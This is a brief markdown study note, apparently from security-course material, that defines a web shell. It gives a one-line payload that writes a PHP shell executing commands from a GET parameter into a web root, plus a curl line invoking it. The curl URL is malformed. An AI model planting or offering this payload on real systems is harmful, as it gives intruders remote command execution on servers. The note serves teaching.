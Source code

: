 # Web Shells

Web shell - is a shell like interface which allowed remotely access to the web server using web browser.

Example of payload to create webShell in php site
```
echo+"<pre><?php+passthru(\$_GET['cmd']);+?></pre>"+>+/var/www/html/webshell.php
```
Using:
```bash
curl http://webshell.php?cmd=pwd
```
## References
1. (Wikipedia, 2021), [https://en.wikipedia.org/wiki/Web_shell](https://en.wikipedia.org/wiki/Web_shell)
2. web200, p. 383